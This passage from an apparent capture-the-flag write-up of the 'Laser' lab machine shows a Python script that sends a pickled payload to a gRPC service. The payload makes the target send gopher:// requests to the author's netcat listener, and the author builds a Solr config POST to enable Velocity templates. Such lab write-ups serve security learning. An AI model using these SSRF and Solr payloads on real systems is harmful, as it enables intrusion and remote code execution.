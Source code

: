     host = "gopher://10.10.14.9:8983/_"
    http1 = host + quote("GET /staging/cores HTTP/1.1\n\n", safe='')

    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = feedengine_pb2_grpc.PrintStub(channel)
    payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http1)))
    content = feedengine_pb2.Content(data=payload_ser)
    response = stub.Feed(content)
    print(response)



When I run this, I get a connection on my Python webserver:



    root@kali# python3 -m http.server 8983
    Serving HTTP on 0.0.0.0 port 8983 (http://0.0.0.0:8983/) ... 
    10.10.10.201 - - [11/Sep/2020 17:42:28] code 404, message File not found
    10.10.10.201 - - [11/Sep/2020 17:42:28] "GET /admin/cores HTTP/1.1" 404 -



Now I'll try to change it from a GET to a POST and try to match the
request in the POCs. I updated the payload to:



    post = '''POST /solr/test/config HTTP/1.1
    Host: localhost:8983
    Content-Type: application/json
    Content-Length: 259

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    '''

    host = "10.10.14.9"
    target = f"gopher://{host}:8983/_"
    http1 = target + quote(post, safe='')



I killed the Python webserver and started `nc` on 8983 (so I could see
the full POST). When I run it, I get a POST request from Laser, and it
looks like what I want:



    root@kali# nc -lnvp 8983
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::8983
    Ncat: Listening on 0.0.0.0:8983
    Ncat: Connection from 10.10.10.201.
    Ncat: Connection from 10.10.10.201:51450.
    POST /solr/test/config HTTP/1.1
    Host: localhost:8983
    Content-Type: application/json
    Content-Length: 259
